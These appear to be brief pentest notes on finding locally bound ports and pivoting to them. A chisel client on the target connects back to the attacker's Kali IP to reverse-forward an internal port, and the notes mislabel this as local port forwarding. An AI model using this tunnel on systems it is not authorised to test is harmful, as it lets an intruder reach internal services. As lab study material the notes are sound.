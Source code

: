 
# Find open ports

```
netstat -plant

ss -tulpn

ip addr
```

![[Pasted image 20240511130925.png]]

127.0.0.1 ports are interesting

53 is common as we know it's DNS only

```
chisel server --reverse --port 9001
```

target
```
./chisel client $kali_IP:9001 R:3333:127.0.0.1:6666
```

now we can access 6666 port of that machine locally on our kali
this is local port forwarding


